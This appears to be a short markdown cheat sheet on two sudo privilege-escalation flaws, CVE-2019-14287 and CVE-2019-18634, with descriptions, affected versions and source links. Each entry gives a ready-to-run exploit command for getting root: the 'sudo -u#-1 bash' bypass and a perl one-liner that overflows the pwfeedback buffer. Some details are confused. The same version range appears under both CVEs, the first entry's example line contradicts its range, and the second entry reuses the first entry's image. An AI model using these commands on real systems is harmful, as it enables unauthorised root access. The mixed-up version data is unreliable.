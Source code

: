 
#### CVE-2019-14287

- **Description**: A flaw was found in the way sudo implemented running commands with arbitrary user ID. If a sudoers entry is written to allow the attacker to run a command as any user except root, this flaw can be used by the attacker to bypass that restriction.
- **Affected Version**: Sudo versions 1.7.1 to 1.8.30 inclusive on Red Hat/CentOS
- **Example**: Sudo versions before 1.8.28

![](CVE-2019-14287.png)

- **Command**: sudo -u#-1 bash

#### CVE-2019-18634

- **Description**: A stack-based buffer overflow vulnerability was discovered in sudo, a program designed to provide limited super user privileges to specific users, triggerable when configured with the “pwfeedback” option enabled. An unprivileged user can take advantage of this flaw to obtain full root privileges. If enabled, users can trigger a stack-based buffer overflow in the privileged sudo process.
- **Affected Version**: Sudo versions 1.7.1 to 1.8.30 inclusive on Red Hat/CentOS
- **Example**:

![](CVE-2019-14287.png)

- **Command**: perl -e 'print(("A" x 100 . chr(0)) x 50)' | sudo -S -k id

Sources: 

https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287
https://www.linuxminion.com/sudo-stack-based-buffer-overflow-vulnerability-pwfeedback/